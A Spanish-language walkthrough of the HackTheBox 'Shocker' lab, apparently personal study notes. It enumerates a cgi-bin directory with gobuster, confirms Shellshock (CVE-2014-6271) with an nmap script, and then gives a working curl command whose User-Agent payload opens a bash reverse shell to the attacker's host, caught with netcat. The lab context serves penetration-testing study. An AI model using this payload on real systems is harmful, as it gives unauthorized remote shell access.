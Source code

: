 #shellshock

-----
Esta vulnerabilidad tambien es conocida como Shellshock


# [[Gobuster]]

```shell
gobuster dir -u http://10.10.10.56 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt --add-slash -t 64
```

![[Shocker8.png]]

Nos da que existe un directorio http://10.10.10.56/cgi-bin/

Ahora aplicamos enumeracion en este directorio buscando archivos con extension  ``.sh .pl .cgi`` 

```shell
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -x sh,pl,cgi -t 64
```

![[Shocker9.png]]

Y da que en el directorio *cgi-bin* hay un archivo *user.sh*   `http://10.10.10.56/cgi-bin/user.sh`

-------

# [[NMAP Scripts]]

Como estamos ante el directorio *cgi-bin*, ejecutamos un comando de enumaracion de shellshock de `nmap` poniendo el archivo de *user.sh* que encontramos antes:
```shell
nmap -p80 10.10.10.56 --script http-shellshock --script-args uri=/cgi-bin/user.sh
```

![[Shocker7.png]]
Nos indica que es vulnerable a [[CVE-2014-6271]]

---------
# Explotacion [[CVE-2014-6271]] y [[Reverse shell]]

[Articulo de shellshock](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/cgi.html)
Vamos a usar [[curl]] con el comando `curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo;echo; /bin/bash -i >& /dev/tcp/10.10.16.6/443 0>&1"`
	aca no se usa el %26 para el & por que estamos dentro de bash y no se va a decodificar
	se pone el ;echo;echo para separar el payload malioso del comando

Ahora nos vamos a poner en escucha con [[nc -nlvp 443]]
![[Shocker8.png]]
Ya ganamos acceso a la maquina

----------

# Notas

## Extensiones .sh .pl. cgi
**.sh** El lenguaje es bash  
**.pl** Lenguaje Perl  
**.cgi** Common Gateway Interface Script

*¿Dónde se usan los archivos .cgi?*

- En servidores antiguos o simples que no usan PHP, Node.js, etc.
- En aplicaciones legacy que usan Perl o Bash.
- En entornos educativos o demostrativos.
